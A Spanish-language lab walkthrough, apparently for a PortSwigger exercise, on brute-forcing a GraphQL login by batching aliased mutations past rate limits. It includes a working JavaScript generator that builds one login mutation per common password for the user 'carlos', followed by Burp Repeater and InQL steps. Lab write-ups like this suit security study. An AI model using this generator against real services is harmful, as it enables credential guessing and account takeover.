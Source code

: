 
![[Pasted image 20230818144057.png]]

![[Pasted image 20230818144116.png]]

copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");



Esta será una resolucion entre null11security y emanuel picariello:

![[Pasted image 20230821143136.png]]

![[Pasted image 20230821143157.png]]

![[Pasted image 20230821143327.png]]

copio el URL estando en el repeater y lo pego en el inQL Scanner para encontrar el endpoint que se ejecuta previo a la generacion de este json:

![[Pasted image 20230821143448.png]]

![[Pasted image 20230821143516.png]]

Este resultado lo paso al Repeater desde aca (click derecho)

![[Pasted image 20230821143649.png]]

![[Pasted image 20230821143709.png]]

me aso al lab, en la consola pego el payload que sugieren en la pagina del lab y le doy enter, en esencia ahi podré ver mas claro el par usuario y clave cuando ya haya encontrado el status 200 via brute force:

![[Pasted image 20230821143912.png]]

luego estando en la misma consola presiono Ctrl+V para pegar los resultados y ya tengo las cadenas:

![[Pasted image 20230821144207.png]]

me vuelvo al repeater a analizar el GrapQL:

![[Pasted image 20230821144518.png]]

aca en lugar de token, success pego el anterior clipboard que se me genero en la consola, borro todo y dejo nada mas mutation y sus llaves:

![[Pasted image 20230821145053.png]]

luego tengo que irme a la pestaña pretty o raw y verificar que no tenga ninguna cookie de session, si es asi, la borro, en este caso no me aparecio y le di send, obtuve un 200:

![[Pasted image 20230821145238.png]]

busco el criterio true:

![[Pasted image 20230821145258.png]]

en la consola ubico el bruteforce31:

![[Pasted image 20230821145335.png]]

pruebo credenciales:

![[Pasted image 20230821145415.png]]

